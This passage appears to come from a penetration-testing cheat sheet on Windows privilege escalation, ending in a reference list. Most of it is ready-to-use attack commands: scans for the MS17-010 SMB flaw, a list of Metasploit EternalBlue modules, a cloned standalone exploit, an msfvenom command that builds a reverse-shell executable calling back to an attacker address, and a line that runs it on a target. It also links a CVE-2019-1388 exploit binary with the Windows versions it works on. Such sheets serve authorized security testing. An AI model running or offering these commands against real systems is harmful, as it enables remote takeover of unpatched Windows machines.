 Check the vulnerability with the following nmap script or crackmapexec: `crackmapexec smb 10.10.10.10 -u '' -p '' -d domain -M ms17-010`.

```c
nmap -Pn -p445 --open --max-hostgroup 3 --script smb-vuln-ms17–010 <ip_netblock>
```

Metasploit modules to exploit `EternalRomance/EternalSynergy/EternalChampion`.

```powershell
auxiliary/admin/smb/ms17_010_command          MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
auxiliary/scanner/smb/smb_ms17_010            MS17-010 SMB RCE Detection
exploit/windows/smb/ms17_010_eternalblue      MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
exploit/windows/smb/ms17_010_eternalblue_win8 MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
exploit/windows/smb/ms17_010_psexec           MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
```

If you can't use Metasploit and only want a reverse shell.

```powershell
git clone https://github.com/helviojunior/MS17-010

# generate a simple reverse shell to use
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o revshell.exe
python2 send_and_execute.py 10.0.0.1 revshell.exe
```

### CVE-2019-1388

Exploit : https://packetstormsecurity.com/files/14437/hhupd.exe.html

Requirement:
- Windows 7 
- Windows 10 LTSC 10240

Failing on : 
- LTSC 2019
- 1709
- 1803

Detailed information about the vulnerability : https://www.zerodayinitiative.com/blog/2019/11/19/thanksgiving-treat-easy-as-pie-windows-7-secure-desktop-escalation-of-privilege


## References

* [Windows Internals Book - 02/07/2017](https://docs.microsoft.com/en-us/sysinternals/learn/windows-internals)
* [icacls - Docs Microsoft](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/icacls)
* [Privilege Escalation Windows - Philip Linghammar](https://xapax.gitbooks.io/security/content/privilege_escalation_windows.html)
* [Windows elevation of privileges - Guifre Ruiz](https://guif.re/windowseop)
* [The Open Source Windows Privilege Escalation Cheat Sheet by amAK.xyz and @xxByte](https://addaxsoft.com/wpecs/)
* [Basic Linux Privilege Escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
* [Windows Privilege Escalation Fundamentals](http://www.fuzzysecurity.com/tutorials/16.html)
* [TOP–10 ways to boost your privileges in Windows systems - hackmag](https://hackmag.com/security/elevating-privileges-to-administrative-and-further/)
* [The SYSTEM Challenge](https://decoder.cloud/2017/02/21/the-system-challenge/)
* [Windows Privilege Escalation Guide - absolomb's security blog](https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/)